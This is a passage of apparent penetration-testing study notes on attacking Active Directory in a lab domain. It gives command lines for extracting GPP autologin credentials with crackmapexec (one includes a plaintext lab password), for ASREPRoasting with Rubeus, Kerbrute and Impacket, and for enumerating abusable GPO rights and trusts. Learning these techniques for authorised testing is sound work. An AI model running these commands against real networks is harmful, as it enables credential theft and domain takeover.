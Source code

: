 `Registry.xml` file can also be found in `SYSVOL` share, which may contain credentials.

* We can use `gpp_autologin` module of `crackmapexec` for this: `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`

### ASREPRoasting

We can obtain the TGT for accounts with `Do not require Kerberos pre-authentication` setting enabled.

* The authentication service reply (AS_REP) is encrypted with the account password, and any domain user can request this.

Note: if we have `GenericWrite`/`GenericAll` permissions over an account, we can enable this attribute and do an ASREPRoasting attack.

Enumeration with `PowerView`: `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`

`Rubeus` attack: `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

* Then crack using `hashcat` on mode 18200.

`Kerbrute`: `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

* Note that the tool automatically does the attack on affected accounts with no Kerberos pre-authentication.

`Impacket`: `GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`

### GPO Abuse

Having control of a GPO allows us to add additional rights to a user (SeDebugPrivilege, SeImpersonatePrivilege etc.), add local admins or create scheduled tasks.

Enumeration:

* `Get-GPO -All | Select DisplayName`
* `PowerView`: `Get-DomainGPO | select displayname`

Enumerating user GPO rights:

```
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

 View GPO Name (from GUID): `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`

These rights can also be viewed in BloodHound.

We can abuse these misconfigurations by using a tool such as `SharpGPOAbuse`.

## Domain Trusts

Enumerating trusts:

```
Import-Module activedirectory
Get-ADTrust -Filter *
```
